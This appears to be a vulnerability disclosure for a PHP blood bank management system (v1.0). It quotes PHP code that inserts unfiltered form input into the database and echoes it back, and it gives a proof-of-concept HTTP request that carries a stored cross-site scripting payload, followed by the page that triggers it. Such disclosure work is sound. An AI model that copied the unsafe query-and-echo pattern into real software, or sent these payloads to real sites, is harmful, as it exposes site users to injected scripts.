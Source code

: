 # blood-bank-system-in-php

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

request.php ， viewrequest.php ，requestblood tables 

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

This vulnerability is triggered by a remote attack

## Vulnerability Type

Basic Cross-Site-Scripting

## Root Cause

An attacker can insert XSS into the database request.php without filtering, and viewrequest.php can display XSS scripts from the database, resulting in a storage XSS vulnerability.

## Impact

## **Description of the vulnerability**

### qequest.php

See it，the $fullname paremeter is able to insert into requestblood table as $user parameter in not fillter.

![image-20241017101816838](https://github.com/user-attachments/assets/0e614a91-ed8d-4d30-a9b3-1a439d6ecbaa)

```
$fullname=$_POST['fullname'];

$query = "INSERT INTO `requestblood`(`id`, `user`, `Address`, `bloodgroup`, `phno`, `unit`, `time-for-flood`)
     VALUES ('','$fullname','$Address','$bloodgroup','$phno','$unit','$time')";
  $result = $con->query($query); 
  
  
  if($result === TRUE){
    echo 'Request has Successfully been Approved';
  ?>
    <meta content="4; blooddetails.php" http-equiv="refresh" />
  <?php
```

### viewrequest.php

In viewrequest.php，the code select * from requestblood，and echo $row['user'] in no filtter.This leads to a storage-based XSS vulnerability

### ![image-20241017102121797](https://github.com/user-attachments/assets/fbd5a72a-b4fd-4d94-aaac-3b3f4dddca55)                                                                                                                                                                                                                                                                                                                                                                                                      



## **Vulnerability recurrence**

### **POC1**	

Insert Cross-site-script into databases. 

```
POST /request.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/index.php
Cookie: PHPSESSID=g51sae8rs3qee728rpt92atbth
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fullname=%3Csvg+onload%3Dalert%28%22xss%22%29%3B+%2F%3E&request=1
```

### Trigger the vulnerability

We just need to access the path

```
http://bloodbankmgmtsystem/viewrequest.php
```

![image-20241017103148277](https://github.com/user-attachments/assets/5d29cf4e-e7f9-4fb3-ad5b-f32960570c69)